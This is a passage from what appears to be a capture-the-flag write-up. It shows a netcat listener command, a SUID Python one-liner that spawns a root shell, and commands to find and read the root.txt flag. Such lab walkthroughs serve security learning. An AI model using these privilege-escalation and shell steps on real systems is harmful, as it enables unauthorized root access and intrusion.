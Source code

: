 ```nc -lvnp 1234```
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Once you are root all that is left to do is find (```find / -type f -name root.txt```) and cat (```cat /root/root.txt ```) the flag.


```cat /root/root.txt ```

![find root](Task4_root2.png)

> root.txt

> Answer: cat root.txt

